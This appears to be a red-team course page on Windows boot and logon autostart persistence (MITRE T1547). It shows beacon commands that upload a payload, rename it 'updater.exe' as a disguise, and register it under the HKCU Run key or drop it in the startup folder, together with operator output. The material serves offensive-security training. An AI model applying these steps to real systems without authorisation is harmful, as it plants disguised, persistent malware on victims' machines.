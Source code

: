 # Boot & Logon Autostart Execution

Boot or Logon Autostart Execution is a collection of techniques \[[T1547](https://attack.mitre.org/techniques/T1547/)] where an adversary configures the computer to automatically execute a payload during startup, or when a user logs in.

### Registry Run Keys <a href="#el_1736199777632_353" id="el_1736199777632_353"></a>

The Windows Registry contains multiple keys that allow programs to run when a user logs in.  These are used legitimately to start some default Windows applications, or 3<sup>rd</sup> party applications that the user has installed.  The two common user keys are:

* HKCU\Software\Microsoft\Windows\CurrentVersion\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

The **Run** key is persistent and remains across every reboot of the system; whereas the **RunOnce** key gets automatically deleted after its first run.  To leverage the key, simply write a new value containing the path to a program to run.  The syntax of the `reg_set` command is `reg_set <host:optional> <hive> <key> <value> <type> <data>`.

```batch
beacon> cd C:\Users\pchilds\AppData\Local\Microsoft\WindowsApps
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe

beacon> reg_set HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater REG_EXPAND_SZ %LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe
Setting registry key \\.\0000000080000001\Software\Microsoft\Windows\CurrentVersion\Run\Updater with type 1
Successfully set regkey
SUCCESS.
```

Read it back with `reg_query` to make sure it was added correctly.

```batch
beacon> reg_query HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater

  01/07/2025 11:51:52 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    Updater                REG_EXPAND_SZ          %LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe
```

Use `reg_delete` to remove a registry key or value when it's no longer required.

### Startup Folder <a href="#el_1736252120729_636" id="el_1736252120729_636"></a>

Programs in the user's startup folder will also run automatically on login.  The location of this folder is `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`.  Simply upload an executable into this directory and it will run each time the user logs in.

```batch
beacon> cd C:\Users\pchilds\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
```
